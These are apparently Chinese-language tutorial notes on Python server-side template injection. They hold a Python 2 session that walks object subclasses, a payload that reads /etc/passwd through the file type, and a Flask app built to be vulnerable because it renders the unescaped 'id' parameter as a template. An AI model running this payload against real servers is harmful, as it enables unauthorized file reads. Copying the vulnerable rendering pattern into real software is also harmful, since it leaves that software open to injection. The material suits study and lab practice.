 #### 实例

![](../../../../img/Pasted%20image%2020240924101851.png)

```python
# 寻找可用引用（子类）
>>> ''.__class__.__mro__[2].__subclasses__() 
>>> [<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>] 

# 可以看到有一个`<type 'file'>`
# payload:
# ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
```



---

## 直接的 XSS 注入

ssti.py
```python
from flask import Flask, request, render_template_string
app = Flask(__name__)

@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    ''' % (code)
    return render_template_string(html)

# run the app in localhost
if __name__ == '__main__':
    app.run()
```
- 直接 python3 运行这个文件即可
